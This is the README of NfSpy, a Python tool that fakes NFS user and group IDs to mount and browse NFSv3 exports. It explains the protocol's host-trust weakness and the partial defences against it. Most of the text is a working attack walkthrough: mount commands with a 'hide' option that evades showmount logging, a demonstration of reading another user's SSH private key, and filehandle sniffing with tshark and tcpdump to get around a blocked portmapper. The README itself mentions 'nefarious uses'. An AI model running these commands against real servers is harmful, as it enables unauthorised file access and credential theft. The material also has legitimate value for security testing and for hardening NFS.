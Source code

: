 NfSpy - an ID-spoofing NFS client
=================================
by [Daniel Miller](https://github.com/bonsaiviking)

NfSpy is a Python library for automating the falsification of NFS credentials when mounting an NFS
share. Included are two client programs:

* **nfspy** uses the Filesystem in Userspace (FUSE) library to mount an NFS
  share in Linux. This allows the use of any regular file-searching and
  manipulation programs like `grep` and `find` to explore the NFS export.

* **nfspysh** is a ftp-like interactive shell for exploring NFS exports. It does
  not require the FUSE library, so it can run on non-Linux platforms.

Vulnerability exploited
-----------------------

NFS before version 4 is reliant upon host trust relationships for
authentication. The NFS server trusts any client machines to authenticate users
and assign the same user IDs (UIDS) that the shared filesystem uses. This works
in NIS, NIS+, and LDAP domains, for instance, but only if you know the client
machine is not compromised, or faking its identity. This is because the only
authentication in the NFS protocol is the passing of the UID and GID (group
ID). There are a few things that can be done to enhance the security of NFS,
but many of them are incomplete solutions, and even with all three listed here,
it could still be possible to circumvent the security measures.

### Squash root

The server or the share ("export" in NFS lingo) can be configured root\_squash,
meaning that any requests that come in claiming to be UID or GID 0 (root) will
be treated like the nobody user, or equivalent on the system. This does not
prevent an attacker from spoofing any other UID/GID combo, but will protect the
most sensitive info and configs on the export.

### nfs\_portmon

Another setting that can be enabled is nfs\_portmon, which denies requests
coming from source ports outside of the 513-1024 range. Since only root can
(usually) allocate these ports, this prevents a regular user on a trusted
machine from writing and using their own NFS client that fakes UID/GID. It does
nothing to stop a rogue host, a user with su permissions, or a root-level
compromised machine from doing the same thing.

### Export restrictions

Shares/exports can be controlled so that only certain machines can access them.
These Access Control Lists can consist of:

* IP addresses (e.g. 192.168.1.34)
* IP prefixes (e.g. @192.168.1)
* hostnames (e.g. server1.mydom.nis)
* host lists (e.g. @trusted\_hosts)
* "everyone"

The best configuration would be to use a host list, since querying the nfs
daemon will just give the name of the list, not which addresses or names it
contains. Next in line would be IP addresses or hostnames, since those are more
difficult to spoof. IP prefixes and "everyone" are indications of insecurity,
since there is little or no restriction on what addresses can connect.

Using NfSpy
-----------

A list of options can be seen by running

    nfspy --help

### Example

There is an NFS server on 192.168.1.124.

    $ showmount -e 192.168.1.124
    Export list for 192.168.1.124:
    /home (everyone)

Mount up the share. Using sudo lets you bind to a privileged port, and the 
allow\_other option lets any user use the filesystem. The other new option here
is "hide", which immediately "unmounts" the share on the server, but keeps the 
filehandle it got. This hides your presence from anyone using showmount -a

    $ sudo nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt

Enjoy your newfound freedom!

    $ cd /mnt
    /mnt$ ls -l
    drwx------ 74 8888 200 4096 2011-03-03 09:55 smithj
    /mnt$ cd smithj
    /mnt/smithj$ cat .ssh/id.rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: DES-EDE3-CBC,30AEB543E512CA19
    <snip>

To unmount, use fusermount:

    $ sudo fusermount -u /mnt

### Advanced example

There is an NFS server on 192.168.1.124. Portmap is blocked, so you can't get a list of shares, but you can sniff the network traffic.

    $ sudo tshark -n -i eth0 -T fields -e nfs.fhandle
    Running as user "root" and group "root". This could be dangerous.
    Capturing on eth0
    01:00:04:00:01:00:22:00:e5:03:d8:9d:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    
    ^C3 packets captured

Now use the dirhandle and getroot mount options to avoid using the mount
daemon, and use the nfsport option to avoid using the portmapper, traversing
up the directory tree to the root of the export. 

    $ sudo nfspy -o rw,server=192.168.1.124:,nfsport=2049/udp,dirhandle=01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00,getroot mnt

Note that we didn't provide a path to mount, since all we know is the nfs
filehandle.

The `tshark` program is part of the Wireshark project. The common `tcpdump`
program also has the ability to decode NFS filehandles with the `-u` option:

sudo tcpdump -n -i eth1 -u -- port 2049
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), capture size 65535 bytes
11:16:38.041242 IP 192.168.1.5.3057978128 > 192.168.1.124.2049: 120 getattr fh[2070001:762001:0:7500c611:a04186e6:edccffaa:1a0a608e:a065:500859ff:762001:adebb708]

Using nfspysh
-------------

`nfspysh` takes the same basic set of options in the same format as `nfspy`, so
the tutorial above should work fine. The list of commands can be seen with the
"help" command.

    $ sudo PYTHONPATH=. python scripts/nfspysh -o server=127.0.0.1:/home/miller/nfs
    nfspy@127.0.0.1:/home/miller/nfs:/> ls
    /:
    040775  1000  1000       4096 2013-04-13 23:20:37 .
    040775  1000  1000       4096 2013-04-13 23:20:37 ..
    040775  1000  1000       4096 2013-04-11 06:36:48 public
    040775  1000  1000       4096 2013-04-13 23:26:40 more
    040700     0  1000       4096 2013-04-11 06:39:12 secrets
    100666  1000  1000          5 2013-04-13 23:28:02 README.md
    120777  1000  1000         21 2013-04-13 13:00:24 nmap -> /usr/local/share/nmap
    nfspy@127.0.0.1:/home/miller/nfs:/more> help
    Known commands:
        cd
        chmod
        chown
        exit
        get
        help
        lcd
        lpwd
        ls
        mkdir
        mv
        put
        pwd
        rm
        rmdir
        umask
    nfspy@127.0.0.1:/home/miller/nfs:/more> help get
    get <filename> [<localname>]
    
            Retrieve <filename> and save to <localname>. If no <localname> is given,
            defaults to the basename of <filename> in the current local working directory.
    nfspy@127.0.0.1:/home/miller/nfs:/more> exit
    Quitting.

BUGS
----

* Write access is beta. It has worked in my tests on a handful of systems,
  but could use more testing. Because of this, NfSpy defaults to mounting
  ro. Specify the rw mount option to change this.
  (nfspysh does not have a read-only mode. Tread carefully!)

* NfSpy does not work with the standard lockd and statd services, which could
  cause problems with writing to files. For read-only, though, and most
  nefarious uses for which it was intended, this shouldn't be a problem.

* NfSpy only supports NFSv3 at the moment. Future versions may intelligently
  choose a NFS version.
